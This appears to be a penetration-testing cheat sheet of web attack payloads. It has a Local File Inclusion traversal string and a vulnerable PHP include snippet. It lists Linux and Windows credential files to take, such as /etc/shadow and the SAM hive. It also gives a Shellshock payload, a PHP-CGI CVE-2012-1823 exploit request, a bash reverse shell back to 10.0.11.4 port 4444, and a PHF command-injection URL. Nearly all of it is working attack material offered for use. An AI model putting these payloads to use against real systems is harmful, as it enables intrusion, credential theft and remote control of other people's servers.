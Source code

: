 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

....

----------------
# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI

```php
<?php
$file = $_GET[‘file’];
if(isset($file))
{
include(“pages/$file”);
}
else
{
include(“index.php”);
}
?>
```

## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```
----------------
**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```
----------------
**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
